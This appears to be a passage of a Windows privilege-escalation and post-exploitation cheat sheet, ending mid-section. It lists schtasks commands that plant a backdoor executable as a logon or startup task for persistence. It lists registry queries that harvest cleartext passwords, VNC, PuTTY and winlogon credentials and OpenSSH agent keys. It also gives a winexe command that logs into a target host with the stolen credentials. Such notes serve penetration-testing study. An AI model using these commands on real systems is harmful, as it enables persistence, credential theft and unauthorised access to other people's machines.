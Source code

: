 ## Scheduled Tasks

### list scheduled tasks

```
schtasks /query /fo LIST /v
schtasks
```

### add startup scheduled tasks (useful for persistence)

```
schtasks /create /tn "MyCustomTask" /sc onlogon /tr "C:\users\Administrator\Desktop\backdoor.exe"

schtasks /create /tn "MyCustomTask" /sc onstart /tr "C:\users\Administrator\Desktop\backdoor.exe"
```



## Clear Text Credentials

### search for 'password' keyword in registry hives

```
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\TightVNC\Server"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKCU\Software\OpenSSH\Agent\Keys"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### extract openssh keys from registry

#### [https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/](https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/)

####

### find winlogon stored credentials (auto login)

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

if you find anything you can connect to the target from kali machine with this command:

```
winexe -U 'admin%password123' //192.168.1.22 cmd.exe
```

### find putty session stored credentials

